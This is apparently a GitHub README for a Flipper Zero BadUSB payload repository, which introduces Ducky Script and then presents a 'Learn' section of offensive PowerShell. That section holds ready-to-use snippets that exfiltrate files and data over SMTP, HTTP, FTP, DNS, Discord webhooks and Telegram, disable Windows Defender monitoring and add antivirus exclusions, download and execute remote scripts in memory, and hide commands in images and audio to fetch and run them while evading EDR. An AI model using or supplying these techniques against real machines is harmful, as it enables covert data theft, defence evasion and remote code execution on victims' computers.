 <div align="center">

  <img src="assets/logo.png" alt="logo" width="200" height="auto" />
  <h1>Flipper Zero BADUSB Repo</h1>
  
  <p>
    A Collection of Flipper Zero BADUSB Payloads
  </p>
</div>

<br />

<!-- Table of Contents -->
# Table of Contents 📒

- [About the Project](#about-the-project)
  * [Rubber Ducky](#rubber-ducky)
  * [Shop](#shop)
- [Getting Started](#getting-started)
  * [Variables](#variables)
  * [Installation](#installation)
  * [Deployment](#deployment)
  * [Learn](#learn)
- [Roadmap](#roadmap)
- [Contact](#contact)
- [Acknowledgements](#acknowledgements)

  

<!-- About the Project -->
## About the Project
This Repository is to assist others in their pentesting adventures in addition to helping those get their feet wet for Ducky Scripts 🐥

<!-- Rubber Ducky -->
## Rubber Ducky
A USB Rubber Ducky is a keystroke injection tool that looks like a USB flash drive. When plugged in, it executes pre-programmed scripts that mimic keyboard input, allowing for quick automation of tasks such as penetration testing and security assessments.

## Shop
<details>
  <summary>Hak5</summary>
  <ul>
    <li><a href="https://shop.hak5.org">Hak5 Shop</a></li>
    <li><a href="https://shop.hak5.org/products/usb-rubber-ducky">Rubber Ducky</a></li>
    <li><a href="https://payloadhub.com/blogs/payloads">Hak5's Payload Hub</a></li>
    <li><a href="https://docs.hak5.org/hak5-usb-rubber-ducky">Official Ducky Script Documentation</a></li>
  </ul>
</details>

<details>
  <summary>Flipper Zero</summary>
  <ul>
    <li><a href="https://shop.flipperzero.one">Flipper Zero Shop</a></li>
    <li><a href="https://docs.flipper.net/bad-usb">Flipper Zero's Badusb Documentation</a></li>
  </ul>
</details>

<details>
<summary>Digispark</summary>
  <ul>
    <li><a href="https://www.amazon.com/digispark/s?k=digispark">Amazon Digispark</a></li>
    <li><a href="https://blog.spacehuhn.com/badusb-digispark">Digispark Badusb</a></li>
    <li><a href="https://github.com/CharlesTheGreat77/DigiPass">Digispark Badusb Payloads</a></li>
  </ul>
</details>

<details>
<summary>External Flipper Resources</summary>
  <ul>
    <li><a href="https://github.com/jamisonderek">Mr. Derek Jamison</a></li>
  </ul>
</details>

<!-- Prerequisites -->
## Prerequisites
This project (and the Flipper Zero as a whole) uses *Ducky Script version 1*. Additionally, most payloads are tested in a *Windows 10* environment. Further testing will be needed on *Windows 11* environment security standards.

<!-- Getting Started -->
## Getting Started 
This is a VERY brief explanation of ducky script in my own words. One may refer to this <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">link</a> if in doubt of supported commands.
<details>
    <summary>REM</summary>
  <ul>
    <li>REM is used as a comment, and does not perform ANY keystroke injection. It got the name REM from the word REMark (remark).</li>
  </ul>
  <pre><code>REM This is a comment</code></pre>
</details>

<details>
    <summary>STRING</summary>
  <ul>
    <li>STRING injects a series of keystrokes. Interpreting lowercase, uppercase, etc. automatically with Flipper Zero's implmentation.</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
  <ul>
    <li>we'll cover the ENTER command right after..</li>
  </ul>
</details>

<details>
    <summary>ENTER</summary>
  <ul>
    <li>ENTER does just that.. presses the return (enter) button! This is one of many supported commands which can be found <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a>!</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
</details>

<details>
    <summary>DELAY</summary>
  <ul>
    <li>DELAY creates a momentary pause in miliseconds. This is VERY useful when keystrokes are too fast for the target computer to interpret. If your working payload is failing.. this is probably the cause (ADD MORE DELAY).</li>
  </ul>
  <pre><code>STRING hey!
ENTER
DELAY 1000
STRING how are you?
ENTER
</code></pre>
  Output:
  <pre><code>hey!
[delays for 1 second]
how are you?</code></pre>
</details>

<details>
    <summary>Additional Commands</summary>
  <ul>
    <li>Modifiers: <pre><code>CTRL
CONTROL
SHIFT
ALT
GUI
WINDOWS</code></pre></li>
    <li>Combos: <pre><code>CTRL-ALT
CTRL-SHIFT
ALT-SHIFT
ALT-GUI
GUI-SHIFT</code></pre></li>
    <li>Cursors: <pre><code>DOWNARROW
DOWN
LEFTARROW
LEFT
RIGHTARROW
RIGHT
UPARROW
UP</code></pre></li>
    <li>Control and navigation: <pre><code>ENTER, BREAK, PAUSE, CAPSLOCK, DELETE, BACKSPACE, END, ESC, ESCAPE, HOME, INSERT, NUMLOCK, PAGEUP, PAGEDOWN, PRINTSCREEN, SCROLLOCK, SPACE, TAB, MENU, APP, SYSRQ</code></pre></li>
    <li>Functions: <pre><code>F1, F2, F3, F4, F5, F6, F7, F8, F9, F10, F11, F12</code></pre></li>
  </ul>
</details>

<details>
    <summary>Your first payload (Windows)</summary>
  <ul>
    <li>Lets create a simple payload to open notepad and display.</li>
  </ul>
  <pre><code>GUI r
STRING notepad.exe
ENTER
DELAY 2000
STRING hello world!
ENTER
</code></pre>
  Output: Opens the windows run box with GUI r [GUI is a modifier], and types in notepad.exe, which opens notetpad and types:
  <pre><code>hello world!</code></pre>
  <ul>
    <li>Again, you can find modifiers, combos, cursors, etc. <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a></li>
  </ul>
</details>



<!-- Variables -->
### Variables
To run most scripts, one must populate the variables inside the payload (.txt) file. All variables will be clearly stated with ```%CHANGE_ME%```

Examples:
```
discord_webook = %CHANGE_ME%
```
```
smtp_server = %CHANGE_ME%
```

<!-- Download -->
# Installation
<details>
    <summary>Install BADUSB Repository 🖥️</summary>
    <details>
        <summary>Windows Install 🪟</summary>
            <ul>
                <li>Download the zip and extract the contents in your preffered directory.</li>
            </ul>
            <ul>
                <img src="assets/download.png" alt="logo" width="auto" height="auto" />
            </ul>
    </details>
    <details>
        <summary>Linux Download 🖥️</summary>
        <ul>
            <li>In any terminal:</li>
            <pre><code>git clone https://github.com/CharlesTheGreat77/BADUSB</code></pre>
        </ul>
    </details>

</details>


<!-- Deployment -->
## Deployment

To deploy the payloads, one must edit the payload (if required) by changing the variables accordingly in the *.txt* file(s) of choice. 

Copy the payloads in the badusb folder in the flipper zero BADUSB directory.


<!-- Payload Development -->
## Learn
These are brief powershell concepts which covers just about whatever you need for red teaming.

<!-- Exfil Methods -->
<details>
    <summary>Exfiltration Methods</summary>
  <ul>
    <li>SMTP and/or SMS</li>
  </ul>

```powershell
$hello_world = "Hello World!" # exfiltrate data
$send_to = "%SEND_TO%" # could be the email used below, another email, or a phone number
$smtp_server = "%SMTP_SERVER%" # smtp.gmail.com
$smtp_username = "%SMTP_USERNAME%" # gmail account [example@gmail.com]
$token = "%TOKEN%" # gmail token/smtp password
$SMTPInfo = New-Object Net.Mail.SmtpClient($smtp_server, 587); $SMTPInfo.EnableSsl = $true; $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential($smtp_username, $token); $ReportEmail = New-Object System.Net.Mail.MailMessage; $ReportEmail.From = $smtp_username; $ReportEmail.To.Add($send_to); $ReportEmail.Body = "Flipper Report: $hello_world"; $SMTPInfo.Send($ReportEmail)
```
Phone Number Setup for *send_to* variable:
    
    Format: <phonenumber>@smsgateway
    example: 9992221111@tmomail.net
SMS Gateways for Service Providers can be found <a href="https://www.fbbbrown.com/help-faq/app-help/runsafe/list-of-mobile-carrier-gateway-addresses/">here</a>!

  <ul>
    <li>File Transfer with curl:</li>
  </ul>

```powershell
curl.exe -F "file1=@filename.txt" <end_point>
```
  <ul>
    <li>HTTP POST request:</li>
  </ul>

```powershell
$content = Get-Content %FILE_TO_EXFIL% # output.txt
Invoke-WebRequest -Uri http://<http_server> -Method POST -Body $content
```
Exfiltrat files and send the contents via a HTTP post request.

  <ul>
    <li>FTP File Upload:</li>
  </ul>

```powershell
$fileName = "%FILENAME%"
$ftpUrl = "%FTP_URL%"
$ftpPassw = "%FTP_PASSWORD%"
$sampleData = "Sample data for exfiltration test"
Set-Content -Path $fileName -Value $sampleData
$creds = Get-Credential -Credential $ftpPassw
Invoke-WebRequest -Uri $ftpUrl -Method Put -InFile $fileName -Credential $creds
```
Upload files via FTP to an existing FTP server
  <ul>
    <li>Exfiltrate over DNS:</li>
  </ul>

```powershell
$dnsServer = "%DNS_SERVER%"
$exfiltratedData = "String of exfiltrated data"
$chunkSize = 63 # look at the sizes of record types
$encodedData = [System.Text.Encoding]::UTF8.GetBytes($exfiltratedData)
$encodedData = [Convert]::ToBase64String($encodedData)
$chunks = $encodedData -split "(.{$chunkSize})"
foreach ($chunk in $chunks) {
    $dnsQuery = $chunk + "." + $dnsServer
    Resolve-DnsName -Name $dnsQuery
    Start-Sleep -Seconds 5
}
```
  <ul>
    <li>Exfiltrate File using curl to Discord Webhook:</li>
  </ul>

```powershell
$discordWebhook = '%WEBHOOK%'
curl.exe -F "file1=@%FILENAME%" $discordWebhook
```

  <ul>
    <li>Exfiltrate data to Discord Webhook:</li>
  </ul>

```powershell
$discordWebhook = "%WEBHOOK%"
$content='This is exfiltrated data'; $payload=[PSCustomObject]@{ content=$content }
Invoke-RestMethod -ContentType "Application/Json" -Uri $webhook -Method Post -Body ($payload | ConvertTo-Json)
```

  <ul>
    <li>Exfiltrate data to Telegram:</li>
  </ul>

```powershell
$id = "%CHAT_ID%"
$token = "%TELE_TOKEN%"
$data = "Exiltrated data example"
$URL = "https://api.telegram.org/bot{0}" -f $token
$MessageToSend = New-Object psobject; $MessageToSend | Add-Member -MemberType NoteProperty -Name 'chat_id' -Value $id
$MessageToSend | Add-Member -MemberType NoteProperty -Name 'text' -Value "$data"
Invoke-RestMethod -Method Post -Uri ($URL +'/sendMessage') -Body ($MessageToSend | ConvertTo-Json) -ContentType "application/json"
```


<!-- Execution Policy/AV Stuff -->
</details>

<details>
    <summary>ExecutionPolicy/AV</summary>
    <ul>
        <li>Disable Real Time Monitoring, Behavior Monitoring etc:</li>
    </ul>

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -DisableIntrusionPreventionSystem $true
```

Admin Privileges is Required.

```powershell
powershell "Start-Process powershell -verb runas"
```

Can open powershell as admin.

  <ul>
    <li>Set Exclusive Path:</li>
  </ul>

```powershell
Add-MpPreference -ExclusionPath %PATH% ; Set-ExecutionPolicy unrestricted
```
To restrict the path back to normal:
```powershell
Remove-MpPreference -ExclusionPath %PATH% ; Set-ExecutionPolicy restricted
```
</details>

<!-- Execution -->
<details>
    <summary>Execution Tactics</summary>
    <ul>
        <li>Execute File from URL in memory:</li>
    </ul>

```powershell
iex(New-Object Net.WebClient).DownloadString('%URL_TO_PS1_FILE%')
```

</details>
<!-- Steganography -->
<details>
    <summary>Steganography (with Python)</summary>
    <p>Steganography is hiding secret information within ordinary-looking files like images or documents. Red teamers use it to sneak sensitive data or commands past security defenses. They can embed data in files to avoid detection, extract information stealthily from networks, hide malware, or verify file authenticity. It helps simulate realistic attacks and test how well defenses can detect covert activities.</p>

Prerequisites For The Methods Below:
| Prerequisite | Version |
|--------------|---------|
| Python       |  <=3    |

```
pip3 install Pillow numpy
```

  <ul>
    <li>LSB Encoding Powershell commands in an image:</li>
  </ul>

This technique encodes our powershell commands into specific regions of an image by replacing the LSB of the RGB color channels to our powershell command.


Here's a python implementation to encode our command:
<!-- LSB Encoder -->
```python
from PIL import Image
import numpy as np

def encode_data_in_region(image_path, data, region):
    img = Image.open(image_path)
    binary_data = ''.join(format(ord(char), '08b') for char in data)
    if len(binary_data) > region[2] * region[3] * 3:
        raise ValueError("Data too large to be encoded in the specified region")
    img_array = np.array(img)
    y_start, x_start, height, width = region
    binary_data_iter = iter(binary_data)
    for y in range(y_start, y_start + height):
        for x in range(x_start, x_start + width):
            if len(binary_data) == 0:
                break
            pixel = img_array[y, x]
            for i in range(3):
                try:
                    bit = int(next(binary_data_iter))
                except StopIteration:
                    bit = 0  # pad wit 0's
                pixel[i] = (pixel[i] & 0xFE) | bit # clear RGB color channel, replace with LSB bit value
                encoded_img = Image.fromarray(img_array)
    return encoded_img

# Usage
image_path = '%FILEPATH%'
secret_data = "whoami"
region_to_encode = (100, 100, 50, 50)  # Define the region as (y_start, x_start, height, width)
encoded_image = encode_data_in_region(image_path, secret_data, region_to_encode)
encoded_image.save('encoded_image.png')
```

This encodes a string in an image using LSB encoding at specific regions ```(100, 100, 50, 50)``` to hide the commands within the image for execution. It then outputs the encoded image to a png file.

We can now **post** or **host** the encoded image for the target machine to download.

1. Create a github repository
2. Host in locally using python server.http
3. External file sharing providers

<!-- LSB Decoder -->
Lets now decode the commmand in the image using powershell and execute:
```powershell
$url = %URL_TO_IMAGE%
$imagePath = encoded_image.png
# download encoded image
$webClient = New-Object System.Net.WebClient
$webClient.DownloadFile($url, $imagePath)

Add-Type -AssemblyName System.Drawing

try {
    $imageBytes = [System.IO.File]::ReadAllBytes($imagePath)
    $memoryStream = New-Object System.IO.MemoryStream
    $memoryStream.Write($imageBytes, 0, $imageBytes.Length)
    $memoryStream.Seek(0, 'Begin') | Out-Null

    $image = [System.Drawing.Image]::FromStream($memoryStream)
    # regions we set in the encoder
    $region = New-Object System.Drawing.Rectangle(100, 100, 50, 50)

    $bitmap = New-Object System.Drawing.Bitmap($image)

    $decodedData = ""
    for ($y = $region.Top; $y -lt ($region.Top + $region.Height); $y++) {
        for ($x = $region.Left; $x -lt ($region.Left + $region.Width); $x++) {
            $color = $bitmap.GetPixel($x, $y)
            # Extract the lsb from each color channel
            $bit = $color.R -band 1
            $decodedData += $bit
            $bit = $color.G -band 1
            $decodedData += $bit
            $bit = $color.B -band 1
            $decodedData += $bit
        }
    }

    $paddingLength = 8 - ($decodedData.Length % 8)
    if ($paddingLength -ne 8) {
        $decodedData += '0' * $paddingLength
    }
    $decodedMessage = ""
    for ($i = 0; $i -lt $decodedData.Length; $i += 8) {
        $byte = [Convert]::ToByte($decodedData.Substring($i, 8), 2)
        $decodedMessage += [char]$byte
    }

    $decodedMessage = $decodedMessage -creplace "[^\x20-\x7E]", ""
    Write-Host $decodedMessage # output command
}
catch {
    Write-Host "Error: $_"
}
```
**Note** the url path, after uploading the encoded image to your file sharing provider, copy & paste the **direct** url to your encoded file inside the decoders ```$url``` variable.

Next we can upload our decoder file as a text file to easily grab the contents of the file for it to download the image, decode, and execute!

OR

We can convert this existing decoder to a *Ducky Script*, update the ```$url``` variable to where your audio file is stored and call it a day!

Executing on a target machine would look like this when saving the decoder to a file sharing website:
```powershell
iex(iwr %download_to_decoder.txt%).Content | iex
```
Issues with this technique is uploading to external file sharing providers, as they may *modify/compress* the file upon upload, which creates an issue with our existing decoding process.

<!-- Spread Spectrum Encoding -->
  <ul>
    <li>Spread Spectrum encoding:</li>
  </ul>
In this Technique, we'll convert the commands into binary and encode it into an audio file. By adjusting the amplitude for each bit (0/1), we can encode our commands in the audio without distoring the sound.


Heres a python implementation to encode our command:
```python
import wave
import numpy as np

def spread_spectrum_audio_encode(audio_path, message):
    with wave.open(audio_path, 'rb') as audio_file:
        audio_params = audio_file.getparams()
        audio_frames = audio_file.readframes(audio_params.nframes)
    audio_data = np.frombuffer(audio_frames, dtype=np.int16)
    
    binary_message = ''.join(format(ord(char), '08b') for char in message)
    message_length = len(binary_message)
    
    watermarked_audio_data = audio_data.copy()
    for i in range(message_length):
        if binary_message[i] == '1':
            watermarked_audio_data[i] += 100  # Increase amplitude for '1'
        else:
            watermarked_audio_data[i] -= 100  # Decrease amplitude for '0'
    
    with wave.open('watermarked_audio.wav', 'wb') as watermarked_audio_file:
        watermarked_audio_file.setparams(audio_params)
        watermarked_audio_file.writeframes(watermarked_audio_data.tobytes())

# Usage
audio_path = '%FILEPATH%.wav'
message = "whoami"
print(f'[*] Length of Message: {len(message)}') # remember length of message
spread_spectrum_audio_encode(audio_path, message)
```
This will encode our command ```whoami``` in a newly created audio file called ```watermarked_audio.wav```. *Take note* of our message length (length: ```6```).


Much like our LSB technique, we can upload or host our newly encoded audio file for our target machine to download.

Lets decode the audio file in powershell and execute:
```powershell
$url = "%URL_TO_AUDIO_FILE%"
# INPUT the length of MESSAGE!!
# $length = 6 [whoami = 6]
$length = 6 # edit this base on message length

function Decode-SpreadSpectrumAudio {
    param (
        [byte[]]$audioBytes,
        [int]$messageLength
    )
    try {
        $extractedMessage = ""
        for ($i = 44; $i -lt ($messageLength * 2) + 44; $i += 2) {
            # conv two bytes to a 16-bit signed int
            $sample = [BitConverter]::ToInt16($audioBytes, $i)

            if ($sample -gt 0) {
                $extractedMessage += "1"
            }
            else {
                $extractedMessage += "0"
            }
        }
        $decodedMessage = ""
        for ($i = 0; $i -lt $extractedMessage.Length; $i += 8) {
            $binarySubstring = $extractedMessage.Substring($i, 8)
            $charCode = [Convert]::ToInt32($binarySubstring, 2)
            $decodedMessage += [char]$charCode
        }
        return $decodedMessage
    }
    catch {
        Write-Host "Error: $_"
    }
}

$messageLength = $length * 8
$req = (Invoke-WebRequest -Uri $url -Method Get -UseBasicParsing).Content
$decodedMessage = Decode-SpreadSpectrumAudio -audioBytes $req -messageLength $messageLength
"$decodedMessage"
```

**Note** the url path, after uploading the encoded audio to your file sharing provider, copy & paste the **direct** url to your encoded file inside the decoders ```$url``` variable.

Next we can upload our decoder file as a text file to easily grab the contents of the file for it to download the audio, decode, and execute!

OR

We can convert this existing decoder to a *Ducky Script*, update the ```$url``` variable to where your audio file is stored and the length of your powershell command, and call it a day!

Executing this with the first option above looks like such:
```powershell
iex(iwr %URL_TO_DECODER.txt%).Content | iex
```

When using steganography as a means of execution or exfiltration, it's best to familiarize yourself with the documents, attachments, etc. that are common in the environment one is pentesting. Additionally, downloading images or audio files from suspicious URLs or the images itself contain odd graphics or other means of content is a huge red flag. Be wise on the images or audio files in use to keep a low profile on EDR solutions etc.

These techniques can be found in another repository of mine <a href="https://github.com/CharlesTheGreat77/BadSteganography">here</a>.
</details>

<!-- Utilities -->
<details>
    <summary>Utilities</summary>
    <ul>
        <li>Get contents of file to a variable:</li>
    </ul>

```powershell
$content = [IO.File]::ReadAllText("%FILEPATH%");
```
OR
```powershell
$content = [System.IO.File]::ReadAllLines("%FILEPATH%")
```
```powershell
$content = cat %FILEPATH%
```
```powershell
$content = Get-Content -Path %FILEPATH%
```
```powershell
$reader = [System.IO.StreamReader]::new("%FILEPATH%")
try {
    $content = $reader.ReadToEnd()
} finally {
    $reader.Close()
}
```
</details>

<!-- Payload Testing -->
# PyDucky
Quickly test payloads using <a href="https://github.com/CharlesTheGreat77/pyDucky">PyDucky</a> locally. This allows for **efficient** payload development and convenient testing.


<!-- Roadmap -->
## Roadmap

* [ ] Update Learn section in README
* [ ] Update filesystem hierarchy
* [ ] Update Payload list

<!-- Contact -->
## Contact

Dicord: DoobTheGoober

Projects: [github](https://github.com/CharlesTheGreat77)


<!-- Acknowledgments -->
## Acknowledgements
I want to give some honor to specific individuals regardless of contribution for payload creation or sheer knowledge and motivation!

 - [Rocket God](https://github.com/RocketGod-git)
 - [Kavitate](https://github.com/Kavitate)
 - [Derek Jamison](https://github.com/jamisonderek)
 - [Redd](https://github.com/InfoSecREDD)

